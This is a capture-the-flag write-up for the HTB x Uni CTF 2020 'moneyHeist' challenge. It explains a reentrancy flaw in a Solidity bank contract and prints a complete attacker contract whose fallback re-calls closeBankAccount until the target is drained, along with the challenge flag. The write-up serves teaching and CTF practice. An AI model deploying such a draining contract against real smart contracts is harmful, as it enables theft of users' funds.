








# HTB x Uni CTF 2020: moneyHeist

  
  


<!--  -->
<!--  -->

## Flag
```
HTB{Th3_D4ng3R_0f_Re3nTr4ncY}
```

## Detailed solution

After starting and visiting the page of the challenge, we are greeted with the source code of a smart contract, as well as it's ABI code and the address it is deployed at.



[REDUCTED]



Taking a look at the code, we see that we are able to perform the following operations: 

1. Create an account,
2. Check the balance of an account,
3. Change the balances noted by the contract, only if we are in the middle of a withdrawal process,
4. Transfer ether between accounts
5. Make a withdrawal, and last but not least,
6. Close our account.

```solidity
function dailyWithdrawalRequest(uint transferAmount) public {
    require(transferAmount <= possibleWithdrawalPerDay);
    require(bankRobberAccount[msg.sender] >= transferAmount);
    require(isAccountActive[msg.sender] == true);
    require(hasAlreadyWithdrawn[msg.sender] == false);
    inWithdrawalProcess[msg.sender] = true;
    (bool isSuccessfulTransfer,) = msg.sender.call.value(transferAmount)("");
    require(isSuccessfulTransfer);
    fundsMovementProcess(address(this),msg.sender,transferAmount,1);
    hasAlreadyWithdrawn[msg.sender] = true;
    inWithdrawalProcess[msg.sender] = false;
}

function closeBankAccount() public {
    require(isAccountActive[msg.sender] == true);
    (bool isSuccessfulTransfer,) = msg.sender.call.value(bankRobberAccount[msg.sender])("");
    require(isSuccessfulTransfer);
    bankRobberAccount[msg.sender] = 0;
    isAccountActive[msg.sender] = false;
    }
}
```

We can see that both the `dailyWithdrawalRequest` and the `closeBankAccount` methods might be vulnerable to a reentrancy attack, caused by the `msg.sender.call.value()()` calls.

```solidity
function dailyWithdrawalRequest(uint transferAmount) public {
    require(transferAmount <= possibleWithdrawalPerDay);
```

Starting with `dailyWithdrawalRequest`, first off, we can pass the amount we want to withdraw. This amount will then be checked against the `possibleWithdrawalPerDay` variable, which limits the amount we can withdraw to 0.001 ether per day.

```solidity
    require(bankRobberAccount[msg.sender] >= transferAmount);
```

Then, it checks whether the account of the sender has sufficient amount of ether to cover the withdrawal. This means that once we create our account, we will need to pass some ether to the contract, and that then, our transactions will have to be less or equal to the original amount we transfered to the contract, just to pass this first check.

```solidity
    require(isAccountActive[msg.sender] == true);
    require(hasAlreadyWithdrawn[msg.sender] == false);
```
The next two checks are to ensure that our account is actuve and that we have not already withdrawn for the day.

```solidity
    inWithdrawalProcess[msg.sender] = true;
    (bool isSuccessfulTransfer,) = msg.sender.call.value(transferAmount)("");
```

After changing a flag to indicate we are currently in a withdrawal process (which will allow the `fundsMovementProcess` method that will update the arrays holding each accounts' information to run), the contract is calling the sender in order to send it the required amount.

```solidity
    require(isSuccessfulTransfer);
    fundsMovementProcess(address(this),msg.sender,transferAmount,1);
    hasAlreadyWithdrawn[msg.sender] = true;
    inWithdrawalProcess[msg.sender] = false;
}
```

The catch here is that (other than the use of `msg.sender.call`), any changes to the contract's state are done after the actual transaction, meaning reentrancy is indeed possible.

Even though we could actually try and attack this method, after a closer look at the `closeBankAccount` method, we can see that since it is transfering the full amount of our account back to us before updating any variables, it is way easier to attack that method instead, mostly because of the smaller amount of moving parts when the method is called:

```solidity
function closeBankAccount() public {
    require(isAccountActive[msg.sender] == true);
    (bool isSuccessfulTransfer,) = msg.sender.call.value(bankRobberAccount[msg.sender])("");
    require(isSuccessfulTransfer);
    bankRobberAccount[msg.sender] = 0;
    isAccountActive[msg.sender] = false;
}
```

The only check done here is whether our account is active.

This means we first have to create an account, passing it some ether, and then close it, which will result to the amount of ether we passed to it, being sent back to us. The catch here is that if we do this from a smart contract, the fallback method of which also calls the `closeBankAccount` method, it'll be able to call it recursively before the Bank contract is even able to make any updates internally, since every previous call to the method will be blocked until `msg.sender.call` returns. Every time this happens, the same amount of ether we initially passed to the contract will be sent to us.

Great, we now know how we can attack it. Since the objective of the challenge is to empty to Bank contract from ether, we also know that the original amount we pass to the contract, should be a multiple of the ether in the contract.

Time for an exploit.

```solidity
import "./moneyHeist.sol";


contract HTBUniCTF {
    address private _owner;
    address private _vulnAddr = 0xb058e8De325AD37d3D978B4e391194dc4388F8b3;
    moneyHeist public vul = moneyHeist(_vulnAddr);
    bool private accCreated = false;
    int private count = 0;
    
    constructor() public payable {
        _owner = msg.sender;
    }
    
    fallback() external payable {
        if (accCreated){
            if (address(vul).balance != 0){
                vul.closeBankAccount();
            }

        }
    }
    
    function init() public payable {
        vul.createNewAccount.value(0.001 ether)();
        accCreated = true;
    }
    
    function exploit() public {
        vul.closeBankAccount();
    }
    
    function payday() public {
        _owner.transfer(address(this).balance);
    }
}
```

What's happening here is that first, when we deploy the contract, it will keep our address so we can then tranfer its balance back to us.

When we call the `init` method, it will create an account to the moneyHeist contract, passing it 0.001 ether.

Then, when we call `exploit`, it will call `closeBankAccount`. This will cause our fallback method to be called midway the `closeBankAccount` execution, before the Bank contract actually deletes our account or sets our account balance to zero. This means that every time we call `closeBankAccount`, it will transfer the same amount, again and again, until the contract's balance reaches zero. Then, every call will change our internal balance to zero, since no complex check is done that could revert our transactions.



Our contract before the attack:



Our contract after the attack (screenshot taken at a later time):



Attack transaction:



Bank contract internal transactions:



Bank contract after the attack:



All your Ether are belong to us.
